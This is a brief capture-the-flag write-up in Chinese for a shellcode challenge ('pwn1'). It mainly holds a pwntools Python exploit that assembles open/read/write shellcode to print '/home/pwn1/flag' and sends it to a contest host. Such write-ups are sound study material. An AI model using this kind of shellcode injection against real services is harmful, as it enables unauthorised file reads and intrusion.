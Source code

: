 ## pwn1
和pre-exam雷同的shellcode challenge，sandbox環境限制`read()`, `write()`, `open()`，將flag開啟後輸出即可。

### exploit
```python
#!/usr/bin/env python3
from pwn import *

context.update(os='linux', arch='amd64')

s = ''
s += shellcraft.pushstr('/home/pwn1/flag')
s += shellcraft.open('rsp', constants.O_RDONLY, 0)
s += shellcraft.mov('r12', 'rax')
s += 'here:'
s += shellcraft.read('r12', 'rsp', 41)
s += shellcraft.write(1, 'rsp', 'rax')
s += 'jmp here'

r = remote('10.13.2.43', 10739)

r.sendline(asm(s))
r.interactive()
```

